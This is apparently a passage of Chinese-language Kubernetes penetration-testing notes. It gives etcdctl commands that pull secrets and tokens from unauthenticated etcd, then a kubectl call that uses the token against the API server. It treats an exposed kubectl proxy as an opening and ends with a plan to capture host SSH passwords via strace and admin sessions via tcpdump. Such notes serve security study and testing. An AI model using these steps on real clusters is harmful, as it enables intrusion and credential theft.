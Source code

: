 etcdctl --endpoints 127.0.0.1:2379 --cacert=ca.crt --cert=server.crt --key=server.key get /registry/secrets/kubernetes-dashboard/dashboard-aufeng-token-zfltw   #获取之前创建的控制面板管理员的token数据<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647930191242-b7077d39-58f0-4342-8bc1-6e35b70d6706.png#averageHue=%2315100b&clientId=ucc352e4d-560e-4&from=paste&height=165&id=ub5fe081f&originHeight=220&originWidth=1214&originalType=binary&ratio=1&rotation=0&showTitle=false&size=62075&status=done&style=none&taskId=ue66c062f-84b9-4f7b-b8d2-e946dfeca2e&title=&width=911)

然后使用kubectl --insecure-skip-tls-verify -s [https://192.168.5.174:6443/](https://192.168.5.174:6443/) --token="" -n kube-system get pods访问<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647929721405-41020d02-5b1b-443f-b2e5-953f80e94783.png#averageHue=%23042859&clientId=ucc352e4d-560e-4&from=paste&height=332&id=uef551018&originHeight=442&originWidth=1206&originalType=binary&ratio=1&rotation=0&showTitle=false&size=126041&status=done&style=none&taskId=u9445cd49-672a-468a-8055-1989968c916&title=&width=905)
<a name="cP2Hh"></a>
### 未授权的访问命令操作
```java
export ETCDCTL_API=3   #环境变量设置etcdctl的v3
etcdctl endpoint health   #检查未授权访问etcdctl是否能建立连接
etcdctl get / --prefix --keys-only | grep /secrets/  #匹配查找token的路径
etcdctl get /registry/secrets/xxxxxxxxxx   #通过路径获得token值
kubectl --insecure-skip-tls-verify -s https://192.168.5.174:6443/ --token="" -n kube-system get pods 
```

<a name="DnXYk"></a>
## kubectl proxy(随机端口，http协议
k8s的代理缺陷<br />有时候运维设置API server接收所有主机的请求方便临时在本地和外网调试
```java
$ kubectl proxy --address='0.0.0.0'  --accept-hosts='^*$' --port=8009
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647935918304-6ceee580-60b8-4879-a6c7-f428d3786976.png#averageHue=%23050402&clientId=ucc352e4d-560e-4&from=paste&height=59&id=ua643c551&originHeight=78&originWidth=756&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6398&status=done&style=none&taskId=ua203f022-4c70-4a0f-993c-5755752ec7b&title=&width=567)

如果碰到这种端口，相当于api-server未授权了。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1647936425636-a6e31d2f-195c-4ecf-aa96-10931e8a45d8.png#averageHue=%23022659&clientId=ucc352e4d-560e-4&from=paste&height=465&id=ua1dc35df&originHeight=929&originWidth=1079&originalType=binary&ratio=1&rotation=0&showTitle=false&size=129118&status=done&style=none&taskId=uc4986824-8337-45bf-97b2-04169e8f6e4&title=&width=539.5)


<a name="CJoWy"></a>
## 思路
那创建一个能获取NODE权限的POD或许就是一个不错的选择，因为只有这样获取的shell才能更方便的在容器母机上进行信息收集，例如 strace 母机 sshd 进程抓取我们想要的用户名和密码、使用 tcpdump 抓取内网系统的管理员登录态等，目前正在运行的容器一般是没有这些权限的。  
